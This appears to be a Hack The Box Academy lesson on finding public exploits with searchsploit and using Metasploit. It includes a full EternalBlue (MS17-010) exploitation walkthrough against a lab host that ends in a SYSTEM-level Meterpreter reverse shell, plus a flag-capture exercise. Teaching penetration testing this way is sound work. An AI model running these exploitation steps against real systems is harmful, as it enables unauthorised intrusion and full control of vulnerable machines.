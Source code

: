 Public Exploits

Once we identify the services running on ports identified from our Nmap scan, the first step is to look if any of the applications/services have any public exploits. Public exploits can be found for web applications and other applications running on open ports, like SSH or ftp.
Finding Public Exploits

Many tools can help us search for public exploits for the various applications and services we may encounter during the enumeration phase. One way is to Google for the application name with exploit to see if we get any results:

https://academy.hackthebox.com/storage/modules/77/google_smb.jpg

A well-known tool for this purpose is searchsploit, which we can use to search for public vulnerabilities/exploits for any application. We can install it with the following command:
Public Exploits

kappajester83@htb[/htb]$ sudo apt install exploitdb -y

Then, we can use searchsploit to search for a specific application by its name, as follows:
Public Exploits

kappajester83@htb[/htb]$ searchsploit openssh 7.2

----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                     | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                               | linux/remote/45210.py
OpenSSH 7.2 - Denial of Service                                                                                              | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection                                                                      | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                                                                                         | linux/remote/40136.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                         | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                                     | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                                         | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration                                                                                        | linux/remote/40113.txt
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------

We can also utilize online exploit databases to search for vulnerabilities, like Exploit DB, Rapid7 DB, or Vulnerability Lab. The Intro to Web Applications module discusses public vulnerabilities for web applications.
Metasploit Primer

The Metasploit Framework (MSF) is an excellent tool for pentesters. It contains many built-in exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets. MSF has many other features, like:

    Running reconnaissance scripts to enumerate remote hosts and compromised targets

    Verification scripts to test the existence of a vulnerability without actually compromising the target

    Meterpreter, which is a great tool to connect to shells and run commands on the compromised targets

    Many post-exploitation and pivoting tools

Let us take a basic example of searching for an exploit for an application we are attacking and how to exploit it. To run Metasploit, we can use the msfconsole command:
Public Exploits

kappajester83@htb[/htb]$ msfconsole


      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.0.16-dev                          ]
+ -- --=[ 2074 exploits - 1124 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Once we have Metasploit running, we can search for our target application with the search exploit command. For example, we can search for the SMB vulnerability we identified previously:
Public Exploits

msf6 > search exploit eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
<SNIP>
EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 

Tip: Search can apply complex filters such as search cve:2009 type:exploit. See all the filters with help search

We found one exploit for this service. We can use it by copying the full name of it and using USE to use it:
Public Exploits

msf6 > use exploit/windows/smb/ms17_010_psexec

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

Before we can run the exploit, we need to configure its options. To view the options available to configure, we can use the show options command:
Public Exploits

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

...SNIP...

Any option with Required set to yes needs to be set for the exploit to work. In this case, we only have two options to set: RHOSTS, which means the IP of our target (this can be one IP, multiple IPs, or a file containing a list of IPs). The second option, LHOST, represents the IP of our attack host (this can be a single IP, or the name of a network interface. In the example below, LHOST is being set to the IP associated with our tun0 interface.) We can set them with the set command:
Public Exploits

msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0

Once we have both options set, we can start the exploitation. However, before we run the script, we can run a check to ensure the server is vulnerable:
Public Exploits

msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.

As we can see, the server is indeed vulnerable. Note that not every exploit in the Metasploit Framework supports the check function. Finally, we can use the run or exploit command to run the exploit:
Public Exploits

msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM

As we can see, we have been able to gain admin access to the box and used the shell command to drop us into an interactive shell. These are basic examples of using Metasploit to exploit a vulnerability on a remote server. There are many retired boxes on the Hack The Box platform that are great for practicing Metasploit. Some of these include, but not limited to:

    Granny/Grandpa
    Jerry
    Blue
    Lame
    Optimum
    Legacy
    Devel

Later on, in this module, we will walk through the Nibbles box step-by-step and then show exploitation using Metasploit. Metasploit is another essential tool to add to our toolkit, but it is crucial not solely to rely on it. To be well-rounded testers, we must know how to best leverage all of the tools available to us, understand why they sometimes fail, and know when to pivot to manual techniques or other tools.


Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): Click here to spawn the target system!

+ 1 Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start) 



